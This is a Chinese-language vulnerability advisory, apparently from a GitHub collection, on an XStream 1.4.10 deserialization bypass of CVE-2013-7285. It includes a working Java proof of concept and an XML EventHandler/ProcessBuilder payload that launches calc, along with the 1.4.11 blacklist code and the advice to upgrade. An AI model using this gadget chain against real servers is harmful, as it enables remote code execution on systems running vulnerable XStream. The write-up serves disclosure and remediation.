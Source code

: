 ## 前言  

XStream是常用的Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。

## 漏洞简介  

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 漏洞危害  

当使用Xstream 1.4.10版本且未对安全框架进行初始化时，攻击者即可通过精心构造的请求包在使用Xstream的服务器上进行远程代码执行。

## 影响范围  

### 产品

> Xstream

### 版本

> Xstream1.4.10版本

### 组件

> Xstream

## 漏洞复现

### PoC

```java
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;
import java.io.IOException;
import java.util.Set;
import java.util.TreeSet;

/**
 * Created by cfchi on 2019/7/26.
 */
public class Main {
    public static String expGen(){
        XStream xstream = new XStream();
        Set<Comparable> set = new TreeSet<Comparable>();
        set.add("foo");
        set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
        String payload = xstream.toXML(set);
        System.out.println(payload);
        return payload;
    }
    public static void main(String[] args) throws IOException {
        expGen();
        XStream xStream = new XStream();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd.exe</string>\n" +
                "                    <string>/c</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
       xStream.fromXML(payload);
    }
}

```

### 1.4.7版本白名单

![1.4.7版本白名单](img/13.png)

### 1.4.10版本，黑名单未开启

![1.4.10版本，黑名单未开启](img/14.png)

### 1.4.11版本，黑名单开启

> blacklist

```java
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
        return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
        throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
        throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```

![1.4.11版本，黑名单开启](img/15.png)

## 修复方案
> 升级Xstream到1.4.11版本

## 参考
https://mp.weixin.qq.com/s/bght8tIwtNqnaidVZjPdSw
http://x-stream.github.io/changes.html#1.4.11
